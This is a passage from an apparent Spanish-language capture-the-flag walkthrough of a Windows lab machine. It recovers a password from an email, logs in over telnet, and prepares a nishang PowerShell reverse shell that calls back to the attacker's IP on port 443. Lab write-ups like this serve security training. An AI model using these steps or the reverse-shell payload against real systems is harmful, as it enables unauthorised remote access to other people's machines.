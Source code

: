 ```bash
  83   │ </o:shapelayout></xml><![endif]--></head><body lang=EN-US link="#0563C1" vlink="#954F72"><div class=WordSection1><p clas
       │ s=MsoNormal>Hi there,<o:p></o:p></p><p class=MsoNormal><o:p>&nbsp;</o:p></p><p class=MsoNormal>The password for the &#82
       │ 20;security&#8221; account has been changed to 4Cc3ssC0ntr0ller.&nbsp; Please ensure this is passed on to your engineers
       │ .<o:p></o:p></p><p class=MsoNormal><o:p>&nbsp;</o:p></p><p class=MsoNormal>Regards,<o:p></o:p></p><p class=MsoNormal>Joh
       │ n<o:p></o:p></p></div></body></html>
  84   │ --alt---boundary-LibPST-iamunique-1277645120_-_---
  85   │ 
  86   │ ----boundary-LibPST-iamunique-1277645120_-_---
  87   │ 
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

```

Aqui ya vemos algo interesante, unas nuevas credenciales y también recordando, vemos el puerto 23 abierto, asociado al servicio TELNET; por lo que podríamos tratar de ingresar:

```bash
❯ telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security

C:\Users\security>
```

Y nos encontramos dentro de la máquina como el usuario `access\security` y ya podemos visualizar la flag (user.txt). Antes de enumerar un poco el sistema, vemos que no tenemos posibilidad de movernos libremente sobre la consola de telnet, por lo tanto, vamos a entablarnos una reverse shell para que sea más cómodo.

```bash
❯ locate Invoke-PowerShellTcp
/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1
/usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1
/usr/share/nishang/Shells/Invoke-PowerShellTcpOneLineBind.ps1
❯ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 PS.ps1
```

Agregamos al final del archivo `PS.ps1` la línea `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.27 -Port 443` y ahora, compartimos un servidor HTTP con python, nos ponemos en escucha por el puerto 443 y ejecutamos lo siguiente en la máquina víctima.
